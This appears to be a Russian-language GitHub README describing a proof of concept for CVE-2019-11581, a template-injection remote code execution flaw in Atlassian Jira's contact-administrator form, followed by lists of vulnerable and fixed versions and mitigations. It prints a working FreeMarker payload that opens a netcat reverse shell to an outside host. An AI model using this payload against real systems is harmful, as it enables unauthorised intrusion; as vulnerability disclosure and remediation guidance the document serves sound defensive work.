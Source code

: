 # RCE-in-Jira
Remote code execution in Atlassian Jira(CVE-2019–11581) through template engine FreeMaker.

В апреле месяце была обнаружена RCE в продукте Atlassian Confluence, а если быть точнее в плагине, который почти всегда там используется. И вот через 4 месяца еще одна RCE, но теперь уже в другом продукте Jira.

# PoC?
Все это дело реализовывается через форму "Связаться с админом". По умолчанию он выключен, но у многих он включен.
Jira использует компилирующий обработчки шаблонов - [FreeMaker](https://ru.wikipedia.org/wiki/FreeMarker), написанный на Java.
Зная это, получается сгенерировать несложный Payload.

```$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('nc -e /bin/bash r0hack.xyz 80').waitFor()```

![Image](https://downloader.disk.yandex.ru/preview/8aa9e1a7214395199fa69ba66aed75beb64bf6ba00d0b72d690a9bd8018afb8a/5d2e2aea/4FcDW08Vat-NVoVf6aWDVnDD_gIthqJIYIA_7RnszcLyB_bZTnYKFluDNTr71ayqNZ0SsUQajOnt62LXVqNhuw%3D%3D?uid=0&filename=rceinjira1.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Затем идем к нам на сервер, где слушаем порт и видим, что есть бэкконект:

![Image](https://downloader.disk.yandex.ru/preview/8d6e8bae7389cf4566b64988bbaaef985c6465133571d05499258b931ebfbb33/5d2e2961/b0nHrU1uF4yBjMOSELFi-ihQsFlZA_Hm_FzlHi0zn0-fI8WEmKr8MSC9q54NCRe5jZ15c8XYUpkIlGu7dtrEWA%3D%3D?uid=0&filename=rceinjira2.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Вуаля, у нас есть шелл. Чаще всего, это пользователь Jira, но есть также моменты, у кого запущен и от root.
Подобный RCE, еще был в 2017 году в Spring Boot и снова Java и снова шаблонизатор FreeMaker, [подробнее!](http://deadpool.sh/2017/RCE-Springs/)

![Image](http://deadpool.sh/images/rce_new.jpg)


# How To Fix?

Обновить!

Уязвимые версии:
* 4.4.x
* 5.x.x
* 6.x.x
* 7.0.x
* 7.1.x
* 7.2.x
* 7.3.x
* 7.4.x
* 7.5.x
* 7.6.x before 7.6.14 (the fixed version for 7.6.x)
* 7.7.x
* 7.8.x
* 7.9.x
* 7.10.x
* 7.11.x
* 7.12.x
* 7.13.x before 7.13.5 (the fixed version for 7.13.x)
* 8.0.x before 8.0.3 (the fixed version for 8.0.x)
* 8.1.x before 8.1.2 (the fixed version for 8.1.x)
* 8.2.x before 8.2.3 (the fixed version for 8.2.x)

 
Испраленно в версиях:
* 7.6.14
* 7.13.5
* 8.0.3
* 8.1.2
* 8.2.3

Если нет возможности срочно обновится, то временным решением будет:
* Отключить форму отправки сообщения Админам
* Заблокировать доступ к эндпоину ```/secure/admin/SendBulkMail!default.jspa```

```Всем удачи!```
